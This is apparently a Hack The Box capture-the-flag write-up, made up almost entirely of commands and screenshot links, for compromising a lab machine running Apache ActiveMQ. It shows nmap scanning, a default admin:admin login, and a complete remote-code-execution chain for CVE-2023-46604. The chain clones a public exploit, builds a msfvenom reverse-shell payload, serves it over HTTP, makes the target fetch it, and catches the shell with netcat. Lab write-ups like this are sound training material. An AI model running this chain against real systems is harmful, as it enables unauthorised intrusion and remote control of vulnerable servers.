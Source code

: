 ```
nmap -sS -sC -sV -T5 -Pn 10.10.11.243
nmap -p- -T5 10.10.11.243
```
![image](https://github.com/regarmulia/HTB/assets/33616880/1186881c-78c2-46f8-a554-1ba8d6634117)

![image](https://github.com/regarmulia/HTB/assets/33616880/2611c10e-95d7-41e1-8c74-6fcf7f6f8844)

```
10.10.11.243/
admin:admin
```
![image](https://github.com/regarmulia/HTB/assets/33616880/4bb5ac1e-d62a-46cd-822f-3ac7bee4abc8)

![image](https://github.com/regarmulia/HTB/assets/33616880/cc45491e-7042-4a98-8622-5722631b40a6)

![image](https://github.com/regarmulia/HTB/assets/33616880/67f7a55f-3471-4f52-a062-46c83d247792)

```
activemq broker 5.15.15 exploit
```
![image](https://github.com/regarmulia/HTB/assets/33616880/0c0635b0-741d-46c7-ad00-e4a8c7a45c99)

![image](https://github.com/regarmulia/HTB/assets/33616880/bb33149d-66eb-4c81-904e-8c31d3b0be2c)


```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.12 LPORT=4444 -f elf -o test.elf
python3 -m http.server 8001
nc -lvvp 4444
go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.12:8001/poc-linux.xml
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![image](https://github.com/regarmulia/HTB/assets/33616880/02a6e7d6-a3cd-486c-9719-80fa5efa2b77)

![image](https://github.com/regarmulia/HTB/assets/33616880/497cfa98-5b46-4748-bb90-3504ed9869d3)

![image](https://github.com/regarmulia/HTB/assets/33616880/b1fd204c-a6df-4c0c-af35-e24df116c0c3)
